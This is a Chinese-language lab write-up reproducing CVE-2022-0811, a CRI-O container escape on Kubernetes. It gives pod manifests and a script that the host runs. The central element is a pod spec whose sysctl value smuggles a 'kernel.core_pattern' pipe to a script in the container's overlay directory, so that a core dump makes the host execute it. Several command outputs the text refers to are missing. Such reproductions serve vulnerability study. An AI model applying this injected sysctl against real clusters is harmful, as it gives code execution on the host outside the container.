

# CVE-2022-0811 复现

---

## 环境

* Linux: Ubuntu 20.04
* Kubernetes: 1.23.4
* CRI-O: 1.23.1

---

## 步骤

创建一个新的Pod，配置文件（[pod-a.yaml](pod-a.yaml)）内容如下：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-a
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

进入pod-a的shell：

```shell
kubectl create -f pod-a.yaml
kubectl exec -it pod-a -- /bin/sh
```

通过mount命令，可以得到如下结果：


其中，upperdir为**/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff**，这是内核到容器根目录的路径。

创建一个脚本文件[malicious.sh](malicious.sh)，内容为：

```shell
#!/bin/sh
date >> /var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/output
```

用chmod +x为这个文件添加执行权限，然后在根目录下touch一个output文件。

接下来创建另一个Pod（[pod-b.yaml](pod-b.yaml)），内容为：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-b
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

再次进入pod-a的shell，获取**/proc/sys/kernel/core_pattern**的内容：


最后触发漏洞：



此时再次查看output文件，就可以得到脚本输出的内容：


